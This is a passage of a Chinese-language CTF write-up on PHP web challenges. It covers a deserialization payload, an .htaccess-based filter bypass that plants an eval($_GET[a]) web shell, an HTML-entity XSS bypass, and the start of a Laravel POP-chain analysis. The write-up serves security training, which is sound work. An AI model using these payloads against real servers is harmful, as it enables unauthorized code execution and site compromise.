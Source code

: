 ```php
$a=new Error($str,1);$b=new Error($str,2);
$c->syc=$a;
$c->lover=$b;
echo urlencode(serialize($c));
```
## 0x04 [XNUCA2019Qualifier]EasyPHP
高质量赛题，没有直接做出来 呜呜呜(好久没做过文件上传的题目，忘记.htaccess和.user.ini)
源码不贴了，大概意思就是
`任意写`</br>
```php
stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')
```
对内容进行了过滤。首先的思路就是直接写shell，发现根本不解析，这个时候就应该想到是配置文件的问题，就应该想办法写入.htaccess文件或者.user.ini文件。</br>
解法1:  
因为我们知道不解析其他的php文件，我们就想办法把php代码包含到index.php中。
题目的源码中有这样一段`include_once("fl3g.php");` 我们可以通过改变include_path来是得这个文件出现在我们可控的位置，自然想到了tmp目录。所以这里  

1. 第一个方法:  
```php
php_value include_path "xxx"
php_value error_reporting 32767
php_value error_log /tmp/fl3g.php \
#
```
因为后面有垃圾数据，记得<kbd>\\</kbd>和<kbd>#</kbd>将他们注释掉  
2. 第二个方法 ：  
   这里他是用的正则来匹配的，我们可以设置正则的回溯次数来绕过正则。
   ```
   php_value pcre.backtrack_limit 0
   php_value pcre.jit 0
   ```
   现在就可以直接写入shell了  
3. 第三个方法:  
   直接auto_append 加入.htaccess
   ```php
   php_value auto_prepend_fi\
   le ".htaccess"
   #<?php eval($_GET[a]);?>\
   ```
   htaccess文件的末尾不允许注释  

## 0x04 [CISCN2019 华东北赛区]Web2  
fuzz 测试很容易看出来是xss，但是有过滤，会被括号变成中文括号，会把`=`变成`等于号`,所以这里必须得用一个编码绕过，并且这个编码能够直接被执行，那就只有yyds的html markup了。也就是&#+ascii.然后网上超一个转换exp和链接直接打`eval`无敌好吧。最后一步是sql注入。

## 0x05 [CISCN2019 总决赛 Day1 Web4]Laravel

审计pop链子没什么好说的。开局`__destruct`

![image-20211229203733914](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211229203733914.png)
